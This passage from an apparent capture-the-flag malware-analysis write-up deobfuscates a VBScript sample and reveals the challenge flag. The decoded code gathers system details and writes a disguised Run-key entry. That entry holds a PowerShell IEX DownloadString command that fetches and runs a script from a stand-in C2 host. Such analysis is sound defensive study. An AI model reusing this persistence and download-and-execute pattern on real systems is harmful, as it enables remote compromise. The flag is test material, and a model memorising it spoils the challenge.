 We now know what each sub function and sub-routine does, and we can now understand what the rest of the code does.

I have here resolved `hbr` and `utr` functions with cyberchef.
```vb
Dim a1, a2, a3, a4, a5, a6, d2
Set a1 = CreateObject("WScript.Shell")
a2 = a1.RegRead("HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductName")
a3 = a1.ExpandEnvironmentStrings("%COMPUTERNAME%")
a4 = a1.ExpandEnvironmentStrings("%USERNAME%")
a5 = a1.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%")
a6 = dsf()
Dim b1, b2, b3
b1 = "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwczovL2hlbGl4cGV3dGVyc2VjcmV0YzIuZXB0L2tlZXBBY2Nlc3NJZkNvbm5lY3Rpb25Mb3N0LnBzMSIp"

b1 = "IEX (New-Object Net.WebClient).DownloadString("https://helixpewtersecretc2.ept/keepAccessIfConnectionLost.ps1")"
b2 = HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
b3 = "Microsoft Edge Integrity Checker"
a1.RegWrite b2 & b3, b1, "REG_SZ"
iolo()

Dim dtg
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = "EPT{X0rd_crypt0_c01n_w4ll3t_h315t!}"
dfg a2, a3, a4, a5, a6, d2
```

![Decoding the dtg variable.](img/decoding-dtg-variable.png)

After deobfuscating the script we can see an interesting IoC, that we would probably want to note down (if it was a legitimate FQDN). But we also see the flag: 
`EPT{X0rd_crypt0_c01n_w4ll3t_h315t!}`
